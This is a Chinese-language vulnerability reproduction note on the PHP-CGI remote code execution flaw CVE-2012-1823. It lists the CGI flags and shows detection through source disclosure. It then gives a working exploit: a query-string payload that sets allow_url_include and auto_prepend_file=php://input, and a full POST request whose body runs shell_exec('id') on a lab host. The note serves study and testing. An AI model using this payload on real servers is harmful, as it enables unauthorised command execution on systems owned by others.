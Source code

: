 # PHP-CGI远程代码执行漏洞（CVE-2012-1823）

**影响版本** （php < 5.3.12 or php < 5.4.2 ）+ apache

通过阅读源码，我发现cgi模式下有如下一些参数可用：

 - `-c` 指定php.ini文件的位置
 - `-n` 不要加载php.ini文件
 - `-d` 指定配置项
 - `-b` 启动fastcgi进程
 - `-s` 显示文件源码
 - `-T` 执行指定次该文件
 - `-h`和`-?` 显示帮助

## 漏洞判断

`-s`显示源码

![image-20211123112918753](https://test-pic-test.oss-cn-guangzhou.aliyuncs.com/img/image-20211123112918753.png)

## 漏洞利用

```
index.php?-d allow_url_include=on -d auto_prepend_file=php://input
```

```
POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: 192.168.88.140:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

<?php echo shell_exec("id"); ?>
```

![image-20211123114007245](https://test-pic-test.oss-cn-guangzhou.aliyuncs.com/img/image-20211123114007245.png)

> 注意，空格用`+`或`%20`代替，`=`用url编码代替。

